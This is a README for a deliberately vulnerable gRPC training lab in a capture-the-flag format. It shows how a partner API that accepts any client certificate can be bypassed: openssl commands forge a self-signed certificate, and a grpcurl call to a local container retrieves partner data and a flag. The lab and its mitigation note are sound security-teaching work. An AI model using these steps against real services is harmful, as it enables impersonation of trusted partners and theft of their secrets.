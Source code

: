 # Lab 004: Arbitrary mTLS

## Vulnerability
Partner API accepts any client certificate, allowing attackers to impersonate trusted partners.

## Objective
Generate a fake client certificate and access partner data to capture the flag.

## Run the Lab
```bash
# Build and run
docker build -t grpc-004 .
docker run -p 8004:8004 grpc-004
```

## Exploit

### Step 1: Generate a fake client certificate
```bash
# Generate client private key
openssl genrsa -out client.key 2048

# Generate client certificate signing request
openssl req -new -key client.key -out client.csr -subj "/CN=FakePartner/O=AttackerCorp"

# Generate self-signed client certificate
openssl x509 -req -in client.csr -signkey client.key -out client.crt -days 365
```

### Step 2: Use the fake certificate to access partner data
```bash
# Install grpcurl
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Connect using the fake client certificate
grpcurl -proto partner.proto -insecure -cert client.crt -
key client.key -d '{
  "partner_id": "FAKE_PARTNER",
  "data_type": "all"
}' localhost:8004 partner.PartnerAPI/GetPartnerData 
```

## Impact
Attackers can impersonate any partner and access sensitive API keys and secrets.

## Flag
Successfully access partner data to get: `GRPC_GOAT{arbitrary_mtls_bypasses_partner_auth}`

## Mitigation
Implement proper certificate validation with a trusted CA and certificate pinning.
